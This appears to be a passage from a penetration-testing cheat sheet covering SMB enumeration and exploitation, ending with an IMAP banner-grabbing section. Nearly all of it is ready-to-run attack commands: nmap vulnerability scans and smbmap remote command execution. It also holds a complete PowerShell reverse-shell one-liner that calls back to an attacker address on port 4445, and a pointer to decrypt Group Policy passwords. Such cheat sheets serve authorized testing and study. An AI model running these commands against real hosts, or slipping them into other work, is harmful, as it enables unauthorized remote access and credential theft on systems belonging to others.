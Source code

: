 ```bash
# nmap smb enum & vuln

nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 $IP

nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 $IP

# Mount smb volume linux
mount -t cifs -o username=user,password=password //$IP/share /mnt/share

# rpcclient commands
rpcclient -U "" $IP
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall

# Run cmd over smb from linux
winexe -U username //$IP "cmd.exe" --system

# smbmap
    #Enum
smbmap.py -H $IP -u administrator -p asdf1234
    #RCE
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H $IP
    # Drive Listing
smbmap.py -H $IP -u username -p 'P@$$w0rd1234!' -L
    # Reverse Shell
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H $IP -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'

# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "

```
### Port 143 / 993- IMAP
```bash
# Banner grabbing
nc -nv $IP 143
openssl s_client -connect $IP:993 -quiet

```
